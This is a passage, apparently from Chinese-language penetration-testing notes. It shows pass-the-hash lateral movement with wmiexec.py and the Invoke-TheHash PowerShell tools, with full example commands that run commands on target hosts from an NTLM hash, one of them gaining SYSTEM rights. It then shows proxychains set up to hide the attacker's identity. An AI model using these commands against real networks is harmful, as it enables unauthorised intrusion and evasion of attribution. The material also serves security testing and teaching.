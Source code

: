 参数实例：
```
wmiexec -hashes 00000000000000000000000000000000:7ECFFFF0C3548187607A14BAD0F88BB1 TEST/administrator@192.168.10.1 "whoami"
```

wmiexec.py的hash参数格式为LMHASH:NTHASH，由于该Hash来自于Server 2008，系统默认不支持LM hash，所以LM hash可以设定为任意值

powershell
参考地址：

https://github.com/Kevin-Robertson/Invoke-TheHash/

支持多种方式

Invoke-WMIExec：

参数实例：
```
Invoke-WMIExec -Target 192.168.1.1 -Domain test.local -Username test1 -Hash 7ECFFFF0C3548187607A14BAD0F88BB1 -Command "calc.exe" -verbose
```
类似wmiexec.py

Invoke-SMBExec：

支持SMB1, SMB2 (2.1), and SMB signing

参数实例：
```
Invoke-SMBExec -Target 192.168.0.2 -Domain test.local -Username test1 -Hash 7ECFFFF0C3548187607A14BAD0F88BB1 -Command "calc.exe" -verbose
```
通过在目标主机创建服务执行命令，所以权限为system

Invoke-SMBClient：支持SMB1, SMB2 (2.1), and SMB signing

如果只有SMB文件共享的权限，没有远程执行权限，可以使用该脚本

支持的功能包括列举目录、上传文件、下载文件、删除文件(具体权限取决于该口令hash的权限)

### 7、挂代理隐蔽身份
proxychains
ProxyChains是Linux和其他Unices下的代理工具。 它可以使任何程序通过代理上网， 允许TCP和DNS通过代理隧道， 支持HTTP、 SOCKS4和SOCKS5类型的代理服务器， 并且可配置多个代理。ProxyChains 的配置文件位于 /etc/proxychains.conf ，打开后你需要在末尾添加你使用的代理
```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4    127.0.0.1 9050

# example
socks5  127.0.0.1 8888
```
OK，基础的配置到这里就搞定了。除此之外，这个文件里还用一堆可选的配置供你调整，自己去看啦。

ProxyChains 的使用方式非常简单，直接在应用程序前加上 proxychains 即可。例如：
